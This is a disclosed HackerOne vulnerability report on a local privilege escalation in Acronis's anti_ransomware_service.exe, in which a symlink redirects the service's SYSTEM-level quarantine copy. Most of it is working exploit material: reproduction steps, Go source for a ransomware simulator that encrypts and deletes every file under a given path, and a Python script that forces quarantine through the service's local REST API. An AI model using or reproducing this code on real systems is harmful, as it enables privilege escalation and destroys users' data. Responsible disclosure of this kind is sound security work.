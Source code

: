 # Local Privilege Escalation in anti_ransomware_service.exe via quarantine

## Report Details
- **Report ID**: 858598
- **URL**: https://hackerone.com/reports/858598
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-24T11:18:35.516Z
- **Disclosed**: 2021-06-24T08:21:26.108Z

## Reporter
- **Username**: mjoensen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
anti_ransomware_service.exe includes a functionality to quarantine files which will copy the suspected ransomware file from one directory to another using SYSTEM privileges. As any unprivileged user has write permissions in the quarantine folder, it is possible to control this privileged write with a hardlink. This means that an unprivileged user can write/overwrite arbitrary files in arbitrary folders. Escalating privileges to SYSTEM is trivial with arbitrary writes. While the quarantine feature is not enabled per default, it can be forced to copy the file to the quarantine by communicating with the anti_ransomware_service.exe through its REST api.

Steps to reproduce:
1. Download the symbolic link testing tools by James Forshaw:
    https://github.com/googleprojectzero/symboliclink-testing-tools
2. Copy a program that simulates ransomware to "C:\ProgramData\ransomware_sim.exe". This can contain arbitary payload as long as it simulates ransomware while in its original location and execute the arbitrary payload while in the quarantine location. Example code can be found below. WARNING: The example code does encrypt files, so do not use on any important files!!!
3. Check that "C:\Acronis Active Protection Storage\Quarantine\" exist. If not, create these. This is possible as an unprivileged user.
    mkdir "C:\Acronis Active Protection Storage\Quarantine\"
4. Run "ransomware_sim.exe C:\\Users\\UNPRIVILIEGEDUSER\\"
5. Wait for the ransomware to be detected by Acronis Active Protection. Press block on the Acronis dialog. Do NOT press close on the dialog!
6. Run CreateSymlink.exe "C:\Acronis Active Protection Storage\Quarantine\ProgramData\ransomware_sim.exe" "C:\Windows\SysWOW64\dpnsvr.exe". Keep the command prompt open.
7. Run the python script move_file_to_quarantine.py that moves the file to quarantine. This could of course be written in a compiled language, such that the executable did not need an installed interpreter. Example code can be found below.
8. Verify "C:\Windows\SysWOW64\dpnsvr.exe" have been overwritten with the content of "C:\ProgramData\ransomware_sim.exe"


ransomware_sim.exe:
"""
// THIS CODE WILL ENCRYPT FILES!!! BE WARNED!! COMPILE AND RUN AT OWN RISK!
package main

import (
  "os"
  "io"
  "fmt"
  "strings"
  "io/ioutil"
  "crypto/md5"
  "crypto/aes"
  "crypto/rand"
  "encoding/hex"
  "crypto/cipher"
  "path/filepath"
)

func createHash(key string) string {
  hasher := md5.New()
  hasher.Write([]byte(key))
  return hex.EncodeToString(hasher.Sum(nil))
}

func encryptFiles(path string, info os.FileInfo, err error) error {
  if info.IsDir() {
    return nil
  }
  file, err := os.Open(path)
  if err != nil {
    return nil
  }
  bytes, err := ioutil.ReadAll(file)
  if err != nil {
    panic(err)
  }
  cryptBytes := encrypt(bytes, "password")
  ioutil.WriteFile(path+".crypt", cryptBytes, 0644)
  file.Close()
  err = os.Remove(path)
  if err != nil {
    panic(err)
  }
  return nil
}

func encrypt(data []byte, passphrase string) []byte {
  block, _ := aes.NewCipher([]byte(createHash(passphrase)))
  gcm, err := cipher.NewGCM(block)
  if err != nil {
    panic(err.Error())
  }
  nonce := make([]byte, gcm.NonceSize())
  if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
    panic(err.Error())
  }
  ciphertext := gcm.Seal(nonce, nonce, data, nil)
  return ciphertext
}


func main() {
  dir, _ := os.Getwd()
  if strings.Contains(dir, "ProgramData") {
    filepath.Walk(os.Args[1], encryptFiles)
  } else {
    fmt.Println("Run bad code after being moved by anti_ransomware_service.exe")
  }
}
// THIS CODE WILL ENCRYPT FILES!!! BE WARNED!! COMPILE AND RUN AT OWN RISK!
"""

move_file_to_quarantine.py:
"""
import requests
import json
import time

get_headers = {'User-Agent': 'AcronisRestClient', "Accept": "*/*"}
put_headers = {'User-Agent': 'AcronisRestClient', "Accept": "application/json",
    "Content-Type":"application/json"}

data = {
    "action": "MoveToQuarantine"
}

r1 = requests.get("http://localhost:6109/alerts", headers=get_headers)
alert_id = r1.json()[0]["uniqueId"]
print("Alert ID: {}".format(alert_id))
r2 = requests.post("http://localhost:6109/alerts/"+str(alert_id), headers=put_headers, data=json.dumps(data))
"""

## Impact

Escalate privileges from standard user to SYSTEM.

## Attachments
No attachments
